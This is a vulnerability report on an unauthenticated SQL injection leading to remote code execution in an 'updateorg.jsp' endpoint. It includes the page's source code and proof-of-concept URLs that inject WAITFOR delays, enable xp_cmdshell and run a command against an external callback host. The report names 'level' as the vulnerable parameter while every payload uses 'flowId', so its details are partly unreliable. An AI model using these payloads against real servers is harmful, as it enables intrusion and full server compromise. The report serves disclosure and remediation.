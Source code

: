 ![image-20250220200935816](./assets/image-20250220200935816.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `updateorg.jsp` endpoint, specifically in the `level` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`/CDGServer3/workflowE/useractivate/updateorg.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	String ids = request.getParameter("orgIds");
	String USER_NAME = request.getParameter("userId");
	USER_NAME = java.net.URLDecoder.decode(USER_NAME,"UTF-8");   

	String level = request.getParameter("level");
	String tempId = request.getParameter("tempId");
		
	PrintWriter pw = response.getWriter();
	ApprovalRangeDao dao = new ApprovalRangeDao();
	ApprovalRangeInfo info = null;
	
	OrganiseStructDao organiseDao = new OrganiseStructDao();
	OrganiseStructInfo organiseinfo = null;
	
	List list = null;
	String str;
	
	if(!"".equals(level) || !"".equals(USER_NAME) || !"".equals(level)){
		
		if(
				(ids.equals("") && level != null && USER_NAME != null & tempId != null) ||
				(ids == null && level != null && USER_NAME != null & tempId != null) ||
				(ids.equals("''") && level != null && USER_NAME != null & tempId != null)
		){
			dao.deleteApprovalRangeByUserNameAndTempIDAndLevel(USER_NAME,tempId,level);
		}else{
			UserDao uDao = new UserDao();
			User user = uDao.findUserNotPassById(USER_NAME);
			String USER_ID = user.getUserId();
			
			String[] orgIds = ids.split("'");
			List listx = new ArrayList();
			for(int i=0;i<orgIds.length;i++){
				if(!orgIds[i].equals("") && !orgIds[i].equals(",")){
					listx.add(orgIds[i]);
				}
			}
			StringBuffer ssb = new StringBuffer();
			for(int i=0;i<listx.size();i++){
				ssb.append(listx.get(i));
				ssb.append(",");
			}
			
			String[] orgIdsX = ssb.toString().split(",");
			String[] orgNames = new String[orgIdsX.length];
			for(int i=0;i<orgIdsX.length;i++){
				organiseinfo = organiseDao.getGroupInfo(orgIdsX[i]);
				orgNames[i] = organiseinfo.getOrganiseName();
			}
			
			StringBuffer sb = new StringBuffer();
			for(int i=0;i<orgNames.length;i++){
				sb.append(orgNames[i]);
				sb.append(",");
			}
			
			list = dao.getApprovalList(USER_ID,tempId);
			
			if(list == null || list.size()==0){
				for(int i=0;i<orgIdsX.length;i++){
					if(!orgIdsX[i].equals("")){
						info = new ApprovalRangeInfo();
						info.setUserId(USER_ID);
						info.setUserName(USER_NAME);
						info.setOrganiseId(orgIdsX[i]);
						info.setOrganiseName(orgNames[i]);
						info.setApprovalLevels(level);
						info.setField01(tempId);
						dao.addApprovalRange(info);
					}
				}
			}else{
				dao.deleteApprovalRangeByUserId(USER_ID,tempId);
				for(int i=0;i<orgIdsX.length;i++){
					if(!orgIdsX[i].equals("")){
						info = new ApprovalRangeInfo();
						info.setUserId(USER_ID);
						info.setUserName(USER_NAME);
						info.setOrganiseId(orgIdsX[i]);
						info.setOrganiseName(orgNames[i]);
						info.setApprovalLevels(level);
						info.setField01(tempId);
						dao.addApprovalRange(info);
					}
				}
			}
		}
		str="OK";		
	}else{
		str="error";
	}
	pw.write(str);
	pw.close();
%>

```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';exec master..xp_cmdshell 'ping 27b536b2c9.ipv6.1433.eu.org.'--
   ```

![image-20250220201500933](./assets/image-20250220201500933.png)

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `updateorg.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

